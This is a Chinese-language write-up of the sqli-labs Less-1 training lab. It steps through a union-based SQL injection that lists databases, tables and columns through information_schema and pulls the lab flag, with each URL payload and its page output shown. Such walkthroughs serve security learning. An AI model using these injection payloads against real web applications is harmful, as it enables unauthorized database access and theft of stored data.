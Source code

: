 题目：sqli-labs less1

根据提示`Please input the ID as parameter with numeric value`
在url地址后加入`?id=1`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
检查是否为数字型注入，在url地址后加入`?id=2-1`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Angelina
Your Password:I-kill-you
```
输出发生改变，可以看出非数字型注入
现在检查是否为字符型注入，在url地址后加入`?id=1a`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
输出与加入`?id=1`相比没有变化，因此可以看出为字符型注入
接下来测试后端代码运用到的列数，在url后分别加入`?id=1 order by 3 --+`与`?id=1 order by 4 --+`，访问后，输出分别如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
```
Welcome    Dhakkan
Unknown column '4' in 'order clause'
```
因此可以知道列数为3，接下来使用union类型注入，在url后加入`?id=0' union select '123'，'1234'，'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:1234
Your Password:12345
```
因此可知后两列的输出将被使用，现在查询有哪些数据库，在url后加入`?id=0' union select '123',(SELECT Group_concat(schema_name) FROM information_schema.schemata),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test
Your Password:12345
```
查看ctftraining库中存在哪些表，在url后加入`?id=0' union select '123',(SELECT Group_concat(table_name) FROM information_schema.tables where table_schema='ctftraining'),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:flag,news,users
Your Password:12345
```
查看flag表中有哪些字段，在url后加入`?id=0' union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:flag
Your Password:12345
```
最后查询flag表，在url后加入`?id=0' union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),(SELECT Group_concat(flag) FROM ctftraining.flag) --+`，访问后，得到`flag`
```
Welcome    Dhakkan
Your Login name:flag
Your Password:flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}
```
`flag`:`flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}`